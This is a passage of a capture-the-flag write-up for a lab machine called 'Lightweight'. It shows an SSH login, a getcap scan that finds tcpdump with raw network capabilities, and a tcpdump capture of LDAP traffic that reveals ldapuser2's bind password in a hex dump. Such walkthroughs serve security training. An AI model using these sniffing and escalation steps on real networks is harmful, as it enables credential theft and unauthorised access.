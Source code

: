 We can find interesting information on user.php
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-05-17/2019-05-17-19-54-32.png)

According to this info, we can figure out we can login to this box with following credential.
{% highlight shell %}
10.10.14.4:10.10.14.4
{% endhighlight %}
{% highlight shell %}
root@kali:~# ssh 10.10.14.4@10.10.10.119
The authenticity of host '10.10.10.119 (10.10.10.119)' can't be established.
ECDSA key fingerprint is SHA256:FWyyew+o9WoPYkfIKGEbTMsexks1z8ZkSUs9O+2AMSU.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.119' (ECDSA) to the list of known hosts.
10.10.14.4@10.10.10.119's password:  # 10.10.14.4
[10.10.14.4@lightweight ~]$
{% endhighlight %}

After logged in, we can find an user "10.10.14.2".
{% highlight shell %}
[10.10.14.4@lightweight home]$ ls -la
total 0
drwxr-xr-x.  6 root       root        76 May 17 16:25 .
dr-xr-xr-x. 17 root       root       224 Jun 13  2018 ..
drwx------.  4 10.10.14.2 10.10.14.2  91 Nov 16 22:39 10.10.14.2
drwx------.  4 10.10.14.4 10.10.14.4  91 May 17 17:44 10.10.14.4
drwx------.  4 ldapuser1  ldapuser1  181 Jun 15  2018 ldapuser1
drwx------.  4 ldapuser2  ldapuser2  197 Jun 21  2018 ldapuser2
{% endhighlight %}

To get user.txt, we have to switch the user.<br>
In the home directory of "10.10.14.2", we can't find anything. So we have to switch to "ldapuser1" or "ldapuser2".

By using "getcap", we can find that we can sniff the network traffic.
{% highlight shell %}
[10.10.14.4@lightweight ~]$ getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
{% endhighlight %}

Carry on network sniffing and when we access "/status.php" with web browser,<br>
we can find a credential of "ldapuser2".
{% highlight shell %}
[10.10.14.4@lightweight ~]$ tcpdump -i any -X port ldap
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes

~~~

18:23:46.631683 IP lightweight.htb.46158 > lightweight.htb.ldap: Flags [P.], seq 1:92, ack 1, win 683, options [nop,nop,TS val 7157713 ecr 7157713], length 91
	0x0000:  4500 008f 8af8 4000 4006 866f 0a0a 0a77  E.....@.@..o...w
	0x0010:  0a0a 0a77 b44e 0185 3d2b bd27 e3f3 b673  ...w.N..=+.'...s
	0x0020:  8018 02ab 2983 0000 0101 080a 006d 37d1  ....)........m7.
	0x0030:  006d 37d1 3059 0201 0160 5402 0103 042d  .m7.0Y...`T....-
	0x0040:  7569 643d 6c64 6170 7573 6572 322c 6f75  uid=ldapuser2,ou
	0x0050:  3d50 656f 706c 652c 6463 3d6c 6967 6874  =People,dc=light
	0x0060:  7765 6967 6874 2c64 633d 6874 6280 2038  weight,dc=htb..8
	0x0070:  6263 3832 3531 3333 3261 6265 3164 3766  bc8251332abe1d7f
	0x0080:  3130 3564 3365 3533 6164 3339 6163 3200  105d3e53ad39ac2.
	0x0090:  0000 0000 0000 0000 0000 0000 0000 00    ...............

~~~